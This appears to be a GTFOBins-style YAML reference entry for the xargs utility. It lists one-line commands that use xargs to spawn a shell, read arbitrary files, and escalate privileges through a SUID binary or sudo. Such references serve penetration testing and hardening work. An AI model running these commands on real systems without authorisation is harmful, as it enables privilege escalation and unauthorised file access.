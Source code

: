functions:
  shell:
    - description: GNU version only.
      code: xargs -a /dev/null sh
    - code: echo x | xargs -Iy sh -c 'exec sh 0<&1'
    - description: Read interactively from `stdin`.
      code: |
        xargs -Ix sh -c 'exec sh 0<&1'
        x^D^D
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid:
    - description: GNU version only.
      code: ./xargs -a /dev/null sh -p
  sudo:
    - description: GNU version only.
      code: sudo xargs -a /dev/null sh
---
